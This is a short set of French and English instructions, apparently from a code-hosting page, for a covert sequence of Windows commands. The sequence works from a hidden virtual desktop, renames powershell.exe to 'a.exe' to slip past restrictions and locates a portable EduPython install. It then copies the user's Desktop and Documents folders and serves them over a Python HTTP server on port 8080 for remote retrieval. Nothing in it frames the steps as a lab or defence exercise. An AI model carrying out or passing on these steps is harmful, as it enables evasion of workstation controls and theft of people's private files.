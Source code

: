1- Ouvrir un cmd : (Il faut faire cela sur un autre bureau Windows Windows + flèche)

Windows + R : cmd

1.1- Copie du powershell

copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe a.exe

2- Find python (A ne pas faire en réel)

Get-ChildItem -Path C:\ -Filter "python" -Recurse -File 2>$null

2.1- Get into the directory

cd ../../../EduPython/App

2.2- Copy Info from Desktop 

copy %USERPROFILE%\Desktop .

copy %USERPROFILE%\Documents .

3- Execute python server

.\python.exe -m http.server 8080 (prendre photo)

4- Get the IP from the station

ipconfig (envoyer message check)

---

* Il faut faire cela sur un autre bureau Windows 
* Vérifier l'IP de la machine 
* Prendre photos check
* Demandez par message à un collègue si ok
